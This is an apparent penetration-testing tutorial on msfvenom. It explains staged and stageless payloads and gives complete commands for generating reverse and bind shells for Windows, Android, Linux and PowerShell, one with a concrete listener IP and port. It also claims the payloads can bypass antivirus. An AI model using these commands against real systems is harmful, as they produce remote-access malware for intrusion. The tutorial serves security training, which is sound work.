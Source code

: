 :orphan:
(a-gentle-introduction-to-msfvenom)=
# A Gentle Introduction to MSFVenom
 
Msfvenom is a combination of Msfpayload and Msfencode, combining both tools into a single Framework instance. These tools are used to generate various payload types and encode them in various encoder modules. The msfvenom tool combines the capabilities of msfpayload and msfencode into a single tool. The use of msfpayload and msfencode had a lot of parameters, and users had problems remembering them. The problematic aspect was jumping from one tool to another tool so the   Metasploit developers decided to create and release the Msfvenom tool. After merging these tools together, msfvenom works faster and can handle all possible formats, and bring some sanity to payload generation. 

*Note: To run the MSFvenom, this article assumes that Kali Linux is installed and the network settings have been made.*

A payload is a piece of code that a hacker executes when they exploit a vulnerability. It is often made up of a few commands that will run on the target operating system to steal data and perform other malicious activities.

*There are mainly two types of Payloads.*
**Staged**: Staged payloads deliver a small stager to the victim, which then connects to the attacker and downloads the remaining payload. As a result, staged payloads require the use of special payload listeners, such as `multi/handler` in Metasploit.  These types of payloads are ideal when there is limited shellcode space. 
Staged payloads are denoted with the use of forward slash. For example, `windows/meterpreter/reverse_tcp `

**Stageless payloads** provide the full payload to the target at once, eliminating the need for the attacker to provide more data. That means we can utilize a variety of listeners, such as Netcat. Stageless payloads are denoted with the use of an underscore `_` for example, `windows/shell_reverse_tcp.` 

## MSFvenom 

Open up the Kali Linux terminal and type the command msfvenom. The command displays all the available options for creating a payload. 
`Msfvenom `

![msf_1](images/msf_1.png)

Syntax 
```
msfvenom -p [Payload_list]  lhost=[Listening_Ip_address] lport=[Listener port] -f [filtetype] > [output_filename] 

lhost = Listening IP, the IP address of the attacker machine for which the victim machine has to connect back with the reverse shell. 
lport = the Listening Port, the port to which the attacker machine will try to connect to. 
-p : this option is used to select the payload to be by msfvenom 
-f : the file format to be saved. 
```
To list all the payloads msfvenom offers, the following command can be used. 
`msfvenom -l payloads `

![msf_2](images/msf_2.png)

## Bind shell 

A bind shell is one that creates a new service on the target machine and requires the adversary to connect to it in order to gain access to the system. 

`msfvenom -p windows/meterpreter/bind_tcp lhost=<listener_IP> lport=<listener_port>  -f exe  -o reverse.exe`

![msf_3](images/msf_3.png)

The shell is will be saved with the .exe extension in the `/home/kali/Documents/payloads` folder. Note this payload is a staged payload. 

## Reverse TCP payload  

A reverse shell is one where attackers listen for the connection from the target machine. The target machine acts as a client connecting to that listener. 
The following command can be used to generate a reverse shell.
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<listener_IP> lport=<listener_port> -f exe > ~/Documents/payloads/reverse_tcp.exe`

![msf_4](images/msf_4.png)

Check out this blog to know more about Reverse shells [Click here](perform-remote-code-execution-with-the-use-of-reverse-shells)

## HTTPS shell

When the victim's system blocks all unneeded ports, we can generate payloads based on the running service on the machine, such as `443` for `HTTPS`. 
Type the following command to create an HTTPS payload. 
`msfvenom -p windows/meterpreter/reverse_https lhost=<listener_IP> lport=<listener_port> -f exe > ~/Documents/payloads/443.exe`

![msf_5](images/msf_5.png)

## Android shell

Using the msfvenom tool we can even create an android shell. The following command can be used for the android shell. 
`msfvenom -p android/meterpreter/reverse_tcp  lhost=<listener_IP> lport=<listener_port> > ~/Documents/payloads/file.apk`

![msf_6](images/msf_6.png)

`Note: the file extension will be a .apk file. `

## Linux reverse shell 

Open up the terminal and copy the following command to create a Linux reverse shell. 

`msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<listener_IP> lport=<listener_port>  -f elf > ~/Documents/payloads/shell`

![msf_7](images/msf_7.png)

## Powershell payload

With the help of the msfvenom .bat extension, the PowerShell reverse shell payload can be created. The following command can be used to create. 

`msfvenom -p cmd/windows/reverse_powershell lhost=192.168.230.128 lport=4447 > ~/Documents/payloads/shell.bat`

![msf_8](images/msf_8.png)

## Conclusion: 

This article demonstrated how to create different types of payloads using the msfvenom tool. With the MSFvenom one can create a very powerful payload that can bypass the Antivirus. To learn more about msfvenom techniques, read the manual page of msfvenom or check the following link `https://www.offensive-security.com/metasploit-unleashed/msfvenom/ `

> **Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)**